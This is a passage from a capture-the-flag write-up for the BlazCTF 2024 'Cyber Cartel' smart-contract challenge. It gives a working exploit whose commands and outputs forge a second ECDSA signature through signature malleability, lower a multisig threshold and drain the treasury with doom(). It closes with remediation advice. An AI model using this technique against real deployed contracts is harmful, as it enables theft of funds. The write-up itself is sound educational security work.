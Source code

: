 ```javascript
cast wallet sign --no-hash --private-key  0xa7c3cc196ea8a05f49d06121e12299fb686b7b477ec0b048e8120fb5ac86d167 0xbe4a501b341b01ad766cbe306b95dd03e02d1af588110f12bc93b7eedce71a20

>>> 0xfd0e7c1e85cd704096fb062a8d18a92f0f43ed2294cac8b6ccd0214c6e4e8f213e16d5b1bf7d3740673b0a5429765c8067428d154451f2b85604fb13e8b76d191c
```

3. Take advantage of signature malleability and generate a second valid signature. `Malley` is the `Attack` contract from [this article](https://medium.com/draftkings-engineering/signature-malleability-7a804429b14a):

```javascript
Malley mal = new Malley();
bytes memory signed = hex"fd0e7c1e85cd704096fb062a8d18a92f0f43ed2294cac8b6ccd0214c6e4e8f213e16d5b1bf7d3740673b0a5429765c8067428d154451f2b85604fb13e8b76d191c";
bytes memory secondSig = mal.manipulateSignature(signed);
console.log("second sig");
console.logBytes(secondSig);

>>> second sig
>>> 0xfd0e7c1e85cd704096fb062a8d18a92f0f43ed2294cac8b6ccd0214c6e4e8f21c1e92a4e4082c8bf98c4f5abd689a37e536c4fd16af6ad8369cd6378e77ed4281b
```

4. Submit and execute the proposal as the player, which decreases the number of needed signatures from 3 to 2. Then call the now unprotected [`doom()`](https://github.com/fuzzland/blazctf-2024/blob/main/cyber-cartel/challenge/project/src/CyberCartel.sol#L106-L108) function, which drains the treasury:

```javascript
uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
vm.startBroadcast(deployerPrivateKey);                                
bodyguard.propose(prop, sortedSigs);
treasury.doom();        
vm.stopBroadcast();    
console.log(chal.isSolved());

>>> true
```

Note that the `sortedSigs` is just an array of the two signatures we generated needed to execute the proposal, [sorted by their keccak hash](https://github.com/fuzzland/blazctf-2024/blob/main/cyber-cartel/challenge/project/src/CyberCartel.sol#L59). 

As for remediation, there's two main bug fixes that would have prevented this exploit. One is to fix signature malleability which is done by checking that an incoming signature's `s` parameter is in the lower half order, as described in [OZ's `ECDSA's` `tryRecover()` function](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/cryptography/ECDSA.sol#L127-L137). The second is to check that signers of given signatures match with a sorted array of guardians, and that each signature matches a unique guardian. This is to prevent allowing two valid signatures from the same signer, regardless of signature malleability. 

## Oh Fuck (Pendle)
